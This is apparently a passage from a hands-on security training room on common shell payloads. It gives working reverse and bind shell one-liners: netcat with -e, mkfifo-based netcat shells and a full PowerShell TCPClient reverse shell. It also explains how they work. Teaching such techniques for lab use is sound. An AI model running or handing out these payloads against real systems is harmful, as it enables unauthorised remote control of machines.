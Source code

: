 Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

````commandline
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
````

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![alt text](images/common-shell-payloads_01.png "Screenshot")

A very similar command can be used to send a netcat reverse shell:

```commandline
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![alt text](images/common-shell-payloads_02.png "Screenshot")

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```commandline
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![alt text](images/common-shell-payloads_03.png "Screenshot")

For other common reverse shell payloads, [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.
